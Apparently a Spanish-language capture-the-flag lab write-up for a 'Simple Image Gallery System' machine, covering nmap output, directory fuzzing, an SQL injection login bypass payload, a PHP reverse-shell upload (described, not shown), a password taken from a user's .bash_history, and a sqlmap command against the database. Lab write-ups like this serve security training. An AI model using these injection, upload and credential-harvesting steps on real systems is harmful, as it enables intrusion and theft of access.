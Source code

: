```python
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.42 seconds
```

### Ports: 80/htto - 8080/http

### Enumeracion del puerto 80
![[Pasted image 20240112205004.png]]

### Fuzzing con gobuster
![[Pasted image 20240112205902.png]]
vamos a analizar el subdominio /gallery

### login
![[Pasted image 20240112210033.png]]
###### vamos a intentar varias credenciales por defecto y tambien inyecciones sqli
payload inyeccion sqli
```python
admin'OR 1=1-- -
```

### tenemos acceso a la pag web
![[Pasted image 20240112210533.png]]
###### en el apartado de albums podemos ver una opcion para cargar archivos lo que podriamos utilizar para intentar cargar un archivo php que contenga una reverse shell
![[Pasted image 20240112212006.png]]
la rever shell ha funcionado tenemos conexion a la maquina

### movimiento lateral. 
![[Pasted image 20240112212241.png]]
###### navegando por la maquina hemos conseguido un archivo backups del usuario mike en el cual tenemos permisos de lectura sobre el archivo .bash_history y dentro podemos ver que el usuario mike en algun momento proporciono su clave de super usuario asi que vamos a capturarla para convertirnos en el usuario mike

### analizando la maquina podemos ver que tenemos una base de datos
![[Pasted image 20240112220052.png]]
###### usaremos sqlmap para enumerar esta base de datos

```python
sqlmap -r phpid.txt --dbs
```
necesitamos interceptar alguna peticion con el burpsuite para poder conseguir la phpsessionid

![[Pasted image 20240112222715.png]]
ya tenemos el nombre de la base de datos. ahora vamos a enumerarla

